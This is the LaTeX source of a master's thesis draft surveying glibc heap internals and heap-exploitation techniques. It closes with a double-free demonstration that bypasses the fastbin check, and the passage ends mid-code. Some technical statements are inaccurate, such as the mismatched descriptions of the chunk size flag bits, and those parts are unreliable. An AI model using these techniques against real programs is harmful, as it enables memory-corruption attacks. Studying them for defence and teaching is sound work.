\documentclass{masterthesis}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{hyperref} % links
\usepackage{graphicx}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

\lstset{frame=tb,
 backgroundcolor=\color{backcolour},  
 aboveskip=3mm,
 belowskip=3mm,
 showstringspaces=false,
 columns=flexible,
 basicstyle={\small\ttfamily},
 numbers=none,
 numberstyle=\tiny\color{gray},
 keywordstyle=\color{blue},
 commentstyle=\color{dkgreen},
 stringstyle=\color{mauve},
 breaklines=true,
 breakatwhitespace=true,
 tabsize=3
}

% macros
\newcommand*\sizet{SIZE\_T}
\newcommand*\libc{glibc}
\newcommand*\previnuse{PREV_INUSE}
\newcommand*\tch{tcache}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\newcommand*\sbs{small bins}

\graphicspath{ {./images/} }

\begin{document}

\title{A survey of heap-exploitation techniques}

\author{Alireza Karimi}

\advisor{Giovanni Lagorio}

\examiner{Alessandro Armando}

\maketitle

\tableofcontents

\chapter{Introduction}

\chapter{Introduction to \libc{} Heap}

\section{Heap}

An application has different types of memory space, two must important are \emph{heap} and \emph{stack}. Usually, the stack is used to store local variables, also, It may use to pass the function's parameters. Unlike stack, heap is a portion of memory which use by applications to dynamically allocate memory during run time. This means an application can request memory and freed memory during execution. The data stored in the heap are accessible by all thread, so, It is important to handle it properly. There are some other differences between stack and heap too :
\begin{itemize}
	\item heap memory can become fragment, but, Stack memory won't
	\item heap can access to variable globally, but, the stack can access to a local variable only
	\item heap memory allocation perform by developers, but, stack allocation perform by compilers
	\item developer have to free heap's memory when they don't need it anymore, but, you would not have to handle stack
\end{itemize}
Each of mentioned memory spaces has advantages and disadvantages, as the result, which one to use depends on the circumstances. If you need to handle data in LIFO format then the stack is the better choice. As we mentioned, The input parameters of a function may send by stack, in this way compiler does not have to free up memory after return from the function because they remove automatically. Also, Stack memory space is a better solution for local variable access.

Every platform has a way to interact with heap memory, there are lots of allocators like iOS allocator, Free- BSD allocator, and Linux allocator. Our work specifically on \emph{ \libc{}} memory allocator which drives from \emph{ptmalloc} heap implementations, which is itself derived from \emph{dlmalloc}, so, at first we want to discuss \libc{} allocations algorithms and Methods. Consider the following code as an allocation sample : 

\begin{lstlisting}[language=c,frame=tlrb]
typedef struct 
{
 int field1;
 char* field2;
} SomeStruct;
 
int main()
{
 SomeStruct* myObject = (SomeStruct*)malloc(sizeof(SomeStruct));
 if(myObject != NULL)
 {
  myObject->field1 = 1234;
  myObject->field2 = 'Hello World!';
  do_stuff(myObject);
	free(myObject);
 }
 return 0;
}

\end{lstlisting}

The above code is a sample of how the c programming language might allocate and free memory on the heap. \libc{} has other functions to allocate and free memory too which we discuss future. In the following sections, we discuss how \libc{} manages heap memory space. 

\section{Chunk}

Allocation and free are not the only job of the heap manager. The heap manager needs some mechanism to keep track of the previous allocation and free space. Moreover, the heap manager needs to align memory in 8 bytes for a 32bit system, and 16Byte in a 64bit system. To achieve this, the heap manager needs to store some metadata.

This allocation metadata and padding store alongside the allocated memory by \emph{malloc} which returns to the user. For this reason, the heap manager uses a concept called \emph{chunk}, each chunk usually bigger than request memory allocation because of metadata and alignment. When the user sends a request for memory allocation, the heap manager finds a chunk which big enough for user data and metadata, then, returns a pointer to the User's data section of the chunk. the below code shows the chunk data structure \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;\#l1163}{\texttt{malloc.c}, line 1163}} :

\begin{lstlisting}[language=c,frame=tlrb]
struct malloc_chunk {
 INTERNAL_SIZE_T  mchunk_prev_size; 
 INTERNAL_SIZE_T  mchunk_size;
 struct malloc_chunk* fd; 
 struct malloc_chunk* bk;
 /* Only used for large blocks: pointer to next larger size. */
 struct malloc_chunk* fd_nextsize;
 struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
\end{lstlisting}

An allocated chunk data structure is different than a free chunk. An allocated chunk just has the size field's, however, a freed chunk has two pointers to find the next free chunk, also, Because of metadata and alignment, the final size of a chunk is different than requested. Consider the following code which allocates 3 chunks of 8 bytes and free them after :

\begin{lstlisting}[language=c,frame=tlrb]
int main(){
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);
	free(a);
	free(b);
	free(c);
}
\end{lstlisting}

Take a look at heap structure after allocation : 

\begin{lstlisting}[language=c,frame=tlrb]
Allocated chunk
Addr: 0x555555559290
Size: 0x21

Allocated chunk
Addr: 0x5555555592b0
Size: 0x21

Allocated chunk
Addr: 0x5555555592d0
Size: 0x21

Top chunk 
Addr: 0x5555555592f0
Size: 0x20d11
\end{lstlisting}

As you can see, after three allocations the heap has 4 chunks. The first three are requested by a user, the final chunk with a big size is the top chunk. The top chunk is the remaining free space in the current heap. now look at returned address by \libc{} :

\begin{lstlisting}[language=c,frame=tlrb]
pwndbg> p a
$3 = (int *) 0x5555555592a0
pwndbg> p b
$4 = (int *) 0x5555555592c0
pwndbg> p c
$5 = (int *) 0x5555555592e0
\end{lstlisting}

The returned address by \libc{} is not the address of chunk, but, the address of the data section. if We minus these two numbers we can see 16 bytes different which use for metadata. If you look at the chunk data structure, there are two INTERNAL\_SIZE\_T is used to keep the size of the chunk. The \libc{} documentation said ' |INTERNAL\_SIZE\_T is the word-size used for internal bookkeeping of chunk sizes' . The default size is equal to \sizet{}. Now if we take a look at inside the memory : 

\begin{lstlisting}[frame=tlrb]
0x555555559290:	0x00000000	0x00000000	0x00000021	0x00000000
0x5555555592a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555555592b0:	0x00000000	0x00000000	0x00000021	0x00000000
0x5555555592c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555555592d0:	0x00000000	0x00000000	0x00000021	0x00000000
0x5555555592e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555555592f0:	0x00000000	0x00000000	0x00020d11	0x00000000
0x555555559300:	0x00000000	0x00000000	0x00000000	0x00000000
\end{lstlisting}

In the above allocation, we have 16 bytes of metadata plus 8 bytes of memory allocation which total allocation becomes 24 bytes, however, \libc{} must keep memory in 16-byte alignment, as the result, the final allocation is 32 byte. Take a look at the size field in an allocated chunk, we can see the size is not 32 but 33. The reason is 3 last bits of size parse differently:
\begin{enumerate}
	\item A (NON\_MAIN\_ARENA) : 0 when the previous chunk is free
	\item M (IS\_MMAPPED): The chunk is obtained through mmap
	\item P (PREV\_INUSE) 0 for chunks in the main arena
\end{enumerate}
Free chunks need more metadata to keep the pointer of the next and previous free chunks. To achieve this, \libc{} uses the data section of the chunk as a place to keep pointer metadata in the free chunk. Take look at heap after call free function :

\begin{lstlisting}[language=c,frame=tlrb]
Free chunk 
Addr: 0x555555559290
Size: 0x21
fd: 0x00

Free chunk
Addr: 0x5555555592b0
Size: 0x21
fd: 0x5555555592a0

Free chunk 
Addr: 0x5555555592d0
Size: 0x21
fd: 0x5555555592c0

Top chunk
Addr: 0x5555555592f0
Size: 0x20d11
\end{lstlisting}

Also take look at inside memory again ,You can see , \libc{} keep pointer information in chunk's data section .

\begin{lstlisting}[frame=tlrb]
0x555555559290:	0x00000000	0x00000000	0x00000021	0x00000000
0x5555555592a0:	0x00000000	0x00000000	0x55559010	0x00005555
0x5555555592b0:	0x00000000	0x00000000	0x00000021	0x00000000
0x5555555592c0:	0x555592a0	0x00005555	0x55559010	0x00005555
0x5555555592d0:	0x00000000	0x00000000	0x00000021	0x00000000
0x5555555592e0:	0x555592c0	0x00005555	0x55559010	0x00005555
0x5555555592f0:	0x00000000	0x00000000	0x00020d11	0x00000000
0x555555559300:	0x00000000	0x00000000	0x00000000	0x00000000
\end{lstlisting}
 
\section{Memory Allocation}
 First, we discuss the heap manager in a simple algorithm, then, we discuss each part in detail. The first question is, What is happen when the user requests a memory allocation : 
\begin{enumerate}
	\item heap manager cheek previously freed chunk, if there is a chunk which big enough, then, return it.
	\item If the heap manager unable to find a previously freed chunk, then look at the top chunk, If there is available free space, then allocated a new chunk and return it.
	\item If there is not enough space in heap anymore, then ask Kernel for new memory allocation to the end of the heap and allocate chunk from this new space.
	\item If all the above space failed then malloc returns NULL, which means, we can’t allocate new space.
\end{enumerate}

\subsection{Allocation from Freed Chunks}
As we mention, Previously freed chunks are the first place search by the heap manager. heap manager track of Freed chunks via some linked list call ‘bins’. When a new allocation request arrives, the heap manager looks at bins to find a big enough chunk. If the chunk has the same size, then the heap manager returns it, otherwise, if the chunk is bigger than the request, then, the heap manager split it. There are several different types of bins which we discuss later.

\subsection{Allocation from Top Chunk}
So what’s happen if there were no suitable previously free space? In this situation, the heap manager checks the remaining space at the end of the heap, if there is enough space to create a chunk then allocate a new chunk from the top of the heap space. 

\subsection{Ask Kernel for more memory}
So, Let's check what happens yet. First, the heap manager search through previously free chunk. Assume we don't have any suitable free chunk, as the result, the heap manager performs chunk creation in the top chunk, however, the request is bigger than this space. If there is not enough space at the end of the heap, the heap manager asks Linux Kernel for more memory. Now we have to discuss another system called \emph{brk}. When a program has been started, the heap manager calls \emph{sbrk} which used the brk system call. This system call allocates more memory just after where the program gets load which is the end of the heap. 
After a while, this system call break, Because, the newly allocated region at the end of the program space collides with another thing in the process’s space. Once this situation happens heap manager unable to allocate contiguous memory space, so, by calling mmap try to allocate non-contiguous memory space. 

\section{MMAP}
As we mentioned, the heap manager uses \emph{mmap} for large memory allocation instead of sbrk. Chunks metadata contain a special flag for these reasons which indicate this chunk allocated off-heap via mmap. After the user releases the memory by free(), these chunks are unmmap. By default, the mmap threshold is 128KB to 512KB for 32-bit and 32MB for the 64-bit system.

\section{ARENA}
Concurrency is a challenge in multi-thread applications, so, heap manager is not safe from this issue. There are many solutions to overcome this problem. In the early days' heap managers used a simple global lock before every heap operation to overcome this situation, however, this approach has a great cost. In multi-thread applications with heavy use of heap, this strategy leads to huge performance issues, because, heap needs to lock many times.

To improve the performance ptmalloc2 introduces a concept called \emph{arena}. In this approach different thread has their arena, also, Each arena manages their chunks, as the result, threads can work at the same time on different arena without altering each other data.

When the process creates a new thread, the heap manager finds an unused arena up to the maximum allowed number which is (2* the number of CPU core) for 32-bit and (8* the number of CPU core) for 64-bit. So, what happens when we reach max number? Thread has to share arena.

As we saw before, the main Areas create and grow by the sbrk system call, however, this is not true for the second heap. The second heap creates via mmap.

\section{Subheap}
As we mentioned subhead works like the main heap, however, they have some differences. The main heap is located right after where the program starts in memory, they grow with the sbrk system call. Sub heap create by use of mmap, so, they are not located where the program starts contiguously, moreover, the heap manager expands them by ‘protect.
How heap manager create and manage the sub heap? In the first step, the heap manager asks the kernel to reserve an area of memory for the \emph{subheap} by malloc. Reserving does not allocate memory to subheap, it just tells the kernel, Do not use this area. Mmap by flags required page as PROT\_NONE achieve this goal.
On the next step, when the main heap expands by sbrk, the heap manager allocates the previously reserved area to subheap by calling ‘protect. What mprotect do? It concerts PROT\_NONE to PROT\_READ, PROT\_WRITE . In this way, at least the kernel allocates real physical memory to each subheap, subheap expand in mmap area until It fills all mmap reserve area.

\section{free}
Whats happens when the user does not need allocated space anymore? Simply, calling heap can free up space. Now, the question is how free() works? First, it needs to calculate the chunk address from the user pointer. User has a pointer to the user data section of the chunk, but, free() needs the actual address of chunk, so, by subtracting the pointer address from metadata size we can find the chunk address. You may ask what happens if we send an invalid pointer? This may lead to memory corruption, as the result, the heap manager does some security check before free up space :

\begin{enumerate}
	\item Is chunk align? 
	\item Is chunk size valid?
	\item Is Chunk in the arena address space?
	\item Is it already free?
\end{enumerate}

\section{Bins}
	Bin is a mechanism that the heap manager used to manage and organize recently freed chunks, so, they can be reused during the next allocations. The simplest solution to keep track of freed space is to store them in a giant bin, although this could work It is not a good solution. Malloc is very wildly used, so, this approach leads to a performance problem.
To improve performance, the heap manager uses different types of bins. There is 5 different type of bins: \emph{\sbs{}}, \emph{\lb{}}, \emph{\fb{}}, \emph{\ub{}}, \emph{\tch{}}. All of the mentioned bins exist in the same area of heap manager source code. This is a list with 127 items, the index 0 is unused. 
Now, We want to discuss how the heap manager recycles a chunk for a new allocation. First, let's consider a simple schema :
\begin{enumerate}
	\item If the M-bit in metadata is set, then this chunk is allocated off-heap, so, It should be unmmap.
	\item Otherwise, if the chunk right before this chunk is free, then they merge
	\item If the chunk right after this chunk is free, then they merge
	\item After the merge, if the larger chunk is located at the top of the heap, then it absorbs into the end of the heap instead of adding to bins
	\item Otherwise, the freed chunk add to the corresponding bin
\end{enumerate}

\subsection{\sbs{}}
There are 62 \sbs{}, Each of them store the same size of the chunk, as the result, each list is sorted by default, also, store and retrieve chunk from \sbs{} is fast. In the 32-bit system, it stores chunk size below 512 bytes, In the 64-bit system, it stores chunk size below 1024 Byte. 

\subsection{\lb{}}
For chunks over 512 bytes ( 1024 byte 64-bit ), the heap manager uses another strategy call \lb{}. There are 63 \lb{}. The main difference between small and \lb{} is \lb{} use a size range instead of a fixed size for every bin. Every bin in the \lb{} store chunk with a unique size range instead of fixed size in \sbs{}, in a way, they do not overlap with each other.
The other difference is \lb{} need to manually sort during the insertion of a chunk. As the result \lb{} are slower than \sbs{}, however, \lb{} used less than \sbs{} in a real program, so, this is not a big problem.

\subsection{\ub{}}
Usually free() follow by an allocation of the same size in a real program. The heap manager introduced another optimization call \ub{}. In this optimization, the heap manager merges freed chunk with its neighbors and puts it inside a general bin call \ub{} instead of finding the corresponding bin. When a new allocation request arrives, the heap manager iterates the overall item in \ub{}, compares the request to each item, If an item is big enough for request, the heap manager returns it, otherwise move an item to the corresponding bin. consider following malloc code from \libc{} 2.23 \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;hb=ad372e296b6b944884f14fb5d8f3a6195bfba22b\#l3467}{\texttt{malloc.c}, line 3467}}:

\begin{lstlisting}[language=c,frame=tlrb]
for (;; ){
  int iters = 0;
  while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av)){
   /* ... */ 
  }
}
\end{lstlisting}

As you can see malloc iterate over all items inside \ub{}. We can conclude, when the heap manager tries to find chunks in \ub{}, all of the \ub{} chunks move to corresponding bins too.

\subsection{\fb{}}
This is the second optimizations on heap manager. These bins keep recently freed small chunks in a list. As we mention \ub{} merge chunk before adding to bins, but, chunk in \ub{} does not merge with neighbors, instead, \fb{} keeps them alive, so, If the program sends the same size request, then heap manager can use this chunks.
The main difference between \fb{} and \sbs{} is \fb{} do not merge chunks with neighbors. How \fb{} do that? The heap manager does not free up this chunk by do not set P-bit. Of course, this strategy has a downside too, the memory of the process becomes full or fragment after a while, to overcome this issue heap manager needs to ‘flush ‘ memory from time to time. There is not any periodic job to flushing \fb{}, instead, \libc{} uses another variant of free function call malloc\_consolidate(). 

\subsection{\tch{} bins Bins}
\tch{} is the last optimizations in the heap manager which added since \libc{-2.26}. Usually, a process has multiple threads, and a resource-like heap is shared between threats. A shared resource between threads can lead to a problem called ‘race condition’. As we mentioned before, a simple strategy to overcome race conditions is 'lock'. The lock gave temporary ownership of resources to one threat. When the job of the first threat finishes, then the second one can proceed. The lock has a great cost for heap managers which is frequently used by a program. As we talk before, the heap manager overcomes this problem by using a secondary arena for each threat until hits the threshold, moreover, it uses \tch{} per-threat to reduce the cost of the lock. \tch{} speeds up the allocation by having per-threat bins of a small chunk. When a threat sends an allocation request, the first \tch{} of that threat check for available chunk, If \tch{} have a big enough chunk, then threat use it and do not need to wait for a heap lock. In the first sample, you can see chunks added to \tch{} after call free, however, If we execute the same code on \libc{-2.23} we have a different result because it does not support \tch{}

\begin{lstlisting}[frame=tlrb]
Free chunk (tcache) 
Addr: 0x555555559290
Size: 0x21
fd: 0x00

Free chunk (tcache) 
Addr: 0x5555555592b0
Size: 0x21
fd: 0x5555555592a0

Free chunk (tcache) 
Addr: 0x5555555592d0
Size: 0x21
fd: 0x5555555592c0
\end{lstlisting}

\section{malloc()}
Let's put all it together to find out how malloc works. When a new allocation request arrives, malloc does the following procedure :
Lets consider \libc{-2.31}, In these particular version \tch{} is the first place . If \tch{} have a chunk with the same size, the heap manager return it immediately. If the chunk is bigger than the request, \tch{} won't split it, instead, the heap manager keep it for future requests. In this case, the arena does not need to lock because the chunk returns from \tch{} immediately. Consider the following code \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3047}{\texttt{malloc.c}, line 3047}}:

\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */ 
 if (tc_idx < mp_.tcache_bins && tcache && tcache->counts[tc_idx] > 0){
  return tcache_get (tc_idx);
}
\end{lstlisting}

The above code is located at libc\_malloc function, It is responsible to check and returns a chunk from \tch{} before lock the arena and search for a chunk. If the \tch{} fail, In the next step two situations may happen. If we have a single thread application there is no need to lock at arena because there is no concurrency, instead, in a multi\-thread application heap manager first get the corresponding arena then lock it at the first. The following code is responsible to check the mentioned situation  \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3056}{\texttt{malloc.c}, line 3056}}:

\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */ 
if (SINGLE_THREAD_P){
  victim = _int_malloc (&main_arena, bytes);
  return victim;
}
arena_get (ar_ptr, bytes);
victim = _int_malloc (ar_ptr, bytes);
 /* ... */ 
\end{lstlisting}

Now we discuss the \_int\_malloc() function . This function gets the request size and arena then tries to allocate a chunk and return it from bins or top chunks. Let's consider \tch{} fails in the previous step. The next place to check is the \fb{}. Also, As we mention, each fast bin keeps just one size of the chunk, as the result, remove and add a chunk to the fast bin is fast  \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3577}{\texttt{malloc.c}, line 3577}}.

\begin{lstlisting}[language=c,frame=tlrb]
if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
\end{lstlisting}

In this step, while the heap manager checks the fast bin for a suitable chunk, It fills \tch{} too, if found a same size chunk in the fast bin. It is a performance improvement, Usually, the following allocation has the same size too, so, the next allocation find in the \tch{} without the needs to arena lock  \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3599}{\texttt{malloc.c}, line 3599}}.

\begin{lstlisting}[language=c,frame=tlrb]
size_t tc_idx = csize2tidx (nb);
if (tcache && tc_idx < mp_.tcache_bins){
 /* ... */ 
 }
\end{lstlisting}

In the following step, the heap manager checks the \sbs{} If the request is in the range of \sbs{} chunk size. Like \fb{}, each \sbs{} keep one chunk size, so, there is no search too \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3635}{\texttt{malloc.c}, line 3635}}.

\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */ 
if (in_smallbin_range (nb)){
	idx = smallbin_index (nb);
	bin = bin_at (av, idx);
	if ((victim = last (bin)) != bin)
	 /* ... */ 
\end{lstlisting}

Unlike \fb{}, chunks in \sbs{} use a double link list, so, when you remove one chunk you have to fix the forward and backward pointers for previous and next chunks \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3637}{\texttt{malloc.c}, line 3637}}. 

\begin{lstlisting}[language=c,frame=tlrb]
idx = smallbin_index (nb);
bin = bin_at (av, idx);
 /* ... */ 
bck = victim->bk;
bin->bk = bck;
bck->fd = bin;
\end{lstlisting}

\sbs{} attacks usually abuse this part of code to write data in a location by manipulating the pointer's data. Like what happens in a fast bin, the heap manager adds the same size chunk to \tch{} too. If the request was not in the range of \sbs{}, heap manager free and merge \fb{} chunk in the first place \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3699}{\texttt{malloc.c}, line 3699}}.
\begin{lstlisting}[language=c,frame=tlrb]
malloc_consolidate (av);
\end{lstlisting}

Now it is time to check \ub{} chunks. As we mention, the heap manager examines all of the \ub{} chunks to find a suitable chunk. If the chunk is the same size then the heap manages to return it, if it is bigger than the requested size heap manager split the chunk return a chunk to the user, and put the remaining chunks to corresponding bins too, and remove them from the \ub{} \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3725}{\texttt{malloc.c}, line 3725}}.

\begin{lstlisting}[language=c]
for (;; )  {
  int iters = 0;
  while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
   /* ... */ 
\end{lstlisting}
This adds and removes chunks that need to alter the forward and backward pointer of chunks which some times abused by an attacker to write data in a location. this part of code has some security check to find if the chunk and heap corrupted or not by checking the pointers and chunk size \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3734}{\texttt{malloc.c}, line 3734}}:
\begin{lstlisting}[language=c,frame=tlrb]
   if (__glibc_unlikely (size <= 2 * SIZE_SZ)
    || __glibc_unlikely (size > av->system_mem))
   malloc_printerr ("malloc(): invalid size (unsorted)");
   if (__glibc_unlikely (chunksize_nomask (next) < 2 * SIZE_SZ)
    || __glibc_unlikely (chunksize_nomask (next) > av->system_mem))
   malloc_printerr ("malloc(): invalid next size (unsorted)");
   if (__glibc_unlikely ((prev_size (next) & ~(SIZE_BITS)) != size))
   malloc_printerr ("malloc(): mismatching next->prev_size (unsorted)");
   if (__glibc_unlikely (bck->fd != victim)
    || __glibc_unlikely (victim->fd != unsorted_chunks (av)))
   malloc_printerr ("malloc(): unsorted double linked list corrupted");
   if (__glibc_unlikely (prev_inuse (next)))
   malloc_printerr ("malloc(): invalid next->prev_inuse (unsorted)");
\end{lstlisting}

If all of above strategy fails, the heap manager tries to allocate chunk from free space at top chunk \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4087}{\texttt{malloc.c}, line 4087}}:

\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */ 
use_top:
	victim = av->top;
	size = chunksize (victim);
	if (__glibc_unlikely (size > av->system_mem))
		malloc_printerr ("malloc(): corrupted top size");
 /* ... */ 
\end{lstlisting}

You can see, this part starts with a security check. In this case, the request size is bigger than the top chunk, the heap manager calls sysmalloc as the last \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4141}{\texttt{malloc.c}, line 4141}}.

\begin{lstlisting}[language=c,frame=tlrb]
 void *p = sysmalloc (nb, av);
 \end{lstlisting}

This function checks if the system support mmap allocation and the requested size is inside the mmap threshold then it allocates memory by using mmap. If it fails means there is no memory anymore, so malloc returns a null pointer.

\section{calloc()}
Calloc \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3365}{\texttt{malloc.c}, line 3365}} is another glib function used to allocate memory. Calloc and malloc have one important difference. unlike malloc, calloc does not use \tch{}. If you have free chunks in \tch{} then request a new memory by calloc, the heap manager won't use them instead create a new chunk from the top chunk. consider the following sample 

\begin{lstlisting}[language=c,frame=tlrb]
int *a = malloc(8);
int *b = malloc(8);
free(a);
free(b);
calloc(1,8);
calloc(1,8);
\end{lstlisting}

If take a look at the heap state after calloc, you can see heap manager create new chunks from the top chunk and \tch{} chunks remain.

\section{Alignment()}
As we mention, one of the heap manager's responsibilities is to keep memory in 16-byte alignment. In short form, the heap manager return aligned memory in the allocation phase, then, When a user calls free to request a chunk, the heap manager checks the alignment of memory for security reasons too. First, see the allocation part :

\begin{lstlisting}[language=c,frame=tlrb]
#define SIZE_SZ (sizeof(INTERNAL_SIZE_T))
#define MALLOC_ALIGN_MASK (MALLOC_ALIGNMENT - 1)
#define MINSIZE (unsigned long)(((MIN_CHUNK_SIZE+MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK))
#define MALLOC_ALIGNMENT  (2 *SIZE_SZ)
#define request2size(req)
(((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE) ? MINSIZE : ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)
\end{lstlisting}

Malloc call request2size macro. This macro checks the request size, then return MINSIZE of allocation or an aligned allocation size. As we mentioned before, the heap manager saves some metadata alongside the user data, as the result, every chunk needs more space than the user requested also the allocation size cant be smaller than the minimum size. Now if we check the free function :

\begin{lstlisting}[language=c,frame=tlrb]
#define aligned_OK(m) (((unsigned long)(m) & MALLOC_ALIGN_MASK) == 0)
if (__glibc_unlikely (size < MINSIZE || !aligned_OK (size))){
  errstr = "free(): invalid size";
  goto errout;
}
\end{lstlisting}

The free function checks if the size is bigger than the minimum allocation size, also, the size must be aligned otherwise an error raise which means memory is corrupted.

\section{malloc\_consolidate()}
As the \libc{} document said, It is a specialized version of the free function that tears down chunks held in the \fb{}. When a new allocation request has arrived, in some conditions the heap manager calls this method to tears down \fb{} chunks. 

To find when malloc\_consolidate() calls, we invest two different versions of \libc{}. the first one is 2.23 and the second one is 2.33 which is the latest \libc{} version. The first usage is the malloc function , Consider the following code :

\begin{lstlisting}[language=c,frame=tlrb]
 if (in_smallbin_range (nb)){
	  /* ... */ 
 	malloc_consolidate (av);
	 /* ... */ 
 }else{
	  /* ... */ 
	 malloc_consolidate (av);
	  /* ... */ 
 }
\end{lstlisting}

As we tell, small/\lb{} are one of the places which malloc search to find free chunk at the first phase. During this check, the heap manager performs flush to move \fb{} chunk too. If we check mentioned section in the latest \libc{} version, we see a \sbs{} check does not contain malloc\_consolidate() anymore.

\begin{lstlisting}[language=c,frame=tlrb]
 if (in_smallbin_range (nb)){
 	  /* ... */ 
 }else{
	  /* ... */ 
	 malloc_consolidate (av);
	  /* ... */ 
 }
\end{lstlisting}

The second usage is when the heap manager wants to use the top chunk in malloc. consider the following code in malloc :

\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */ 
use_top:
	 /* ... */ 
	else if (have_fastchunks (av)){
	   malloc_consolidate (av);
	}
\end{lstlisting}

The third usage is not in the malloc, instead, it is about free function. consider the following code from the free function :

\begin{lstlisting}[language=c,frame=tlrb]
if ((unsigned long)(size) >= FASTBIN_CONSOLIDATION_THRESHOLD) {
  if (have_fastchunks(av))
	malloc_consolidate(av);
	}
\end{lstlisting}

The rest of the usage located inside malloc\_trim and malloc\_opt

\chapter{Heap Exploitation }

As the implementation of the \libc{} has changed and improved over the years, various methods have been proposed for its exploitation. In this chapter, we discuss must famous heap exploitation techniques. how exploitation works entirely depends on the heap implementation, as the result, some techniques work on a specific version of \libc{}. we discussed each technique in one or more versions.

\section{Double Free}
This is the first attack that we want to discuss which use by other attacks too. What is happen if an allocated chunk of data frees twice? In this situation, the heap data structure is corrupted and finally lead to a memory leak that the attacker can use. As we discussed before, after the user frees an allocated space, this chunk adds to corresponding bins. In the simplest scenario in \libc{-2.23} , it adds to \fb{}. Consider the following sample code :

\begin{lstlisting}[language=c,frame=tlrb]
a = malloc(10);  // 0xa04010
b = malloc(10);  // 0xa04030
c = malloc(10);  // 0xa04050
free(a);
free(b); 
free(a);
d = malloc(10);  // 0xa04010
e = malloc(10);  // 0xa04030
f = malloc(10);  // 0xa04010
\end{lstlisting}

At first, we requested 3 chunks of 10-byte. After that, we free ‘a’ and ‘b’ and at last ‘a' again. You can see the fast bin structure after free() below step by step :

\begin{lstlisting}[frame=tlrb]
head -> a -> tail
head -> b -> a -> tail
head -> a -> b -> a -> tail
\end{lstlisting}

As you can see we have ‘a’ twice in the \fb{} now. what is happen if the 'a' frees twice continuous? double 'a' can not free continuous instead the ‘b’ frees in the middle of them. This is one of the \fb{} security checks if double ‘a’ free continuous the fast bin can detect the ‘a’ is on the top of the list right now, so, the program crashes. To bypass the \fb{} security check, it is mandatory to free another chunk in the middle. 3 new chunks of data are allocated in the following. You can see the fast bin state below step-by-step during the second allocation :

\begin{lstlisting}[frame=tlrb]
head -> b -> a -> tail [ 'a' is returned ]
head -> a -> tail [ 'b' is returned ]
head -> tail [ 'a' is returned ]
\end{lstlisting}

At the end ‘d’ and ‘f’ points to the same memory location, as the result, any change in one leads to another. You should pay attention to the fact that both allocations have the same chunk size, otherwise, the heap manager creates a new chunk from the top chunk instead of return \fb{} freed chunks.
This method needs to be modified since \libc{-2.26} introduced \tch{}. On the new \libc{}, freed chunks add to \tch{} instead of \fb{}, as the result, we need to do some modification to this attack. consider the following code :

\begin{lstlisting}[language=c,frame=tlrb]
void *ptrs[8];
for (int i=0; i<8; i++) {
